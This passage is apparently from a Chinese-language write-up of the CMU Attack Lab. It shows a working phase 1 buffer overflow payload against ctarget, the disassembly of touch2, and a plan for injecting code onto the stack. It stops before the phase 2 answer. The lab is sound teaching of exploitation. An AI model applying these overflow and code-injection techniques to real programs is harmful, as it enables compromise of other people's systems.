 ```shell
niebelungen@ubuntu:~/Desktop/target1$ ./hex2raw < test.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00 
```

## phase_2

```assembly
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00 
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,%eax
  401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	callq  401c8d <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>
```

我们的任务是重新调用`touch2`，输入函数依然是`getbuf`。`touch2`函数中有一个参数且这个参数必须等于cookie值。所以我们在调用`touch2`之前要先将cookie放入rdi。将我们注入的代码写到栈上，然后调用设置rdi，最后返回`touch2`。

所以注入代码为：`mov 0x59b997fa,rdi;ret; `，栈布局：

```text
|mov 0x59b997fa,rdi	|
|ret	touch2		|
|padding			|
|shellcode_addr		|
```
查看`getbuf`处的rsp：
```shell
pwndbg> info r rsp
rsp            0x5561dc78          0x5561dc78
```
这里的rsp其实是`Gets`栈底，所以答案为：
